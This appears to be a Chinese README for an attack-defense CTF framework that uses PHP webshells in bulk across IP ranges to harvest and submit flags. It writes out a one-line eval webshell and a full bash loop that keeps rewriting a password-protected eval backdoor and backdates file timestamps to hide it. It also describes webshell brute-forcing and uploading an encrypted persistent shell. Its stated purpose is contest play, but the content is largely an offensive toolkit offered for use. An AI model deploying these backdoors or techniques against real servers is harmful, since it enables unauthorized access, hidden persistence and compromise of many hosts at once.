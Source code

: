 1.修改shell文件的时间
2.修改flag获取与提交的时间间隔
3.


    AWD Predator Framework v2.0                   

              --code by AresX       
			  

* 在AWD攻防赛中通过给定的webshell批量获取提交flag

* 为不会现场挖洞写脚本的菜鸡准备

* 用py去实现菜刀是一件代码量很大的事情，懒得做也不会做(以后可能会做)，所以需要手动设置一句话的功能函数和方法

* 针对简单的单参数传递的一句话和特定的加密一句话

# 启动

    python console.py


# webshell

**添加已知的webshell,仅支持php，GET和POST方法使用eval和exec函数的一句话木马**

### 添加webshell

命令`add`

使用方法: `add [shell path] [pwd] [type(eval/exec)] [method(get/post)]`

如一句话为`<?php @eval($_POST[‘cmd’]);?>` 路径为`x.x.x.x:8001://index/cmd.php`

一句话密码为`cmd` 功能函数为`eval` 方法为`POST`


example:`add :8001://index/cmd.php cmd eval post`

注意这里添加一句话路径不加ip地址,ip地址要使用命令`ip`生成

命令执行后webshell的路径和密码会以字典的形式储存

**处理了使用md5加密的eval函数一句话,**

get方法在添加时,可添加带md5加密的密码的路径

如:`add :8003/x.php?pass=fuckyou x eval get` 

post方法请在`flag.py`中修改`for j in POST_eval_shells_path_pwd:`循环中的`eval_POST_data['pass']`为自己的密码，密码将被自动传递

post添加方法同`add x.x.x.x:8001://index/cmd.php cmd eval post`

### 显示添加的webshell

命令`show`

将显示所有添加的webshell路径和密码

### 保存,读取,清空webshell
*保存已经添加的webshell路径和密码，方便临场修改代码*

保存:`save`
读取:`load`
清空:`clear` //清空不会清空已经储存的webshell,除非在清空后执行保存命令

### Webshell爆破

*采用一种提速千倍的爆破方法*

命令: `crack http://xxx.php`

字典储存在`auxi/pwd.txt`中，可自行完善字典


# iplist

**根据输入生成指定段的ip列表**

### 生成列表

命令: `ip x.x.a-b.x`

可设定acb任意段的ip列表,使用'-'连接左右区间

### 添加指定ip

命令: `ip x.x.x.x`

执行命令后,`x.x.x.x`将被添加到ip列表中,会自动去除重复项和进行排序

### 查看已经生成的列表

命令: `showip`

显示生成的ip列表

### 清空ip列表

命令: `clearip`

### 去掉指定ip

命令: `removeip x.x.x.x`

# flag

**通过iplist和webshell获取flag，将获取到的flag提交到指定服务器**

### 获取flag
*遍历iplist中所有的地址尝试通过所有已经添加的webshell获取flag,在执行此命令前需设定iplist，否则报错*

命令:`getflag [command]`

example:`getflag curl www.baidu.com/flag.txt`

获取命令如果不需要修改只需完整输入一次，之后可直接执行`getflag`

### 查看flag

命令: `showflag`



### 提交flag

**攻防赛环境中获取到的flag通常不是标准格式,`flag.py`中的`submit_flag`函数中已经使用了`re.compile(r'flag{\w+?}')`尝试匹配标准flag格式**
**如果出现问题,请自行在`flag.py`文件的`submit_flag`函数中使用正则匹配获得标准flag进行提交**

*提交flag 需设定提交flag的链接，以及cookie和data,使用"?"替换flag在data中所在的参数*

命令: `submit [url] [cookie] [data](use '?' replace the flag )`

example: `submit http:xxx.xxx.xx/xx/ JSESSIONID=A6F8;route=6cf03 pid=-1&pidName=&flag=?`
**去掉cookie中的空格,data中flag所在位置需用?代替！**

提交命令如果不需要修改只需完整输入一次，之后可直接执行`submit`

submit完成之后会有清空flag的选项(y/n)

### 清空flag

命令: `clearflag`

# 上传

## 文件木马上传

命令: `upload <file>(default='auxi/shell.php')`

默认上传文件为`auxi/shell.php` 如需使用修改默认文件,默认文件为加密不死马

如需上传其他文件,将文件储存在`auxi/`目录下

执行`upload xxx`即可

如上传默认文件,直接执行`upload`

如果文件上传成功，会自动访问一次上传的文件，激活不死马

## 命令木马上传

命令: `cupload`

连接一句话执行bash命令生成不死马`.index1.php`

bash命令为:`system('while true;do echo \'<?php if(md5($_POST["pass"])=="3a50065e1709acc47ba0c9238294364f"){@eval($_POST[a]);} ?>\' >fuck.php;touch -m -d "2017-11-12 10:10:10" .index1.php;sleep 1;done;');`

如果要修改请修改`command.py`中的`data[z0]`

---


### 目录结构
```
###########
├── Readme.md               //帮助文档 
├── console.py              //启动
├── core                    // 核心模块
│   ├── shells.py           //写入，读取，保存webshell
│   ├── flag.py             // 获取，提交flag
│   ├── iplist.py           // 生成ip列表   
│—— auxi                    //辅助模块
|   |—— upload.py           //webshell上传功能
|   |—— shell.php           //默认上传文件
|   |—— webshell.txt        //一句话储存路径  
|   |—— command.py          //上传bash不死马
|—— data                    //webshell数据储存

```

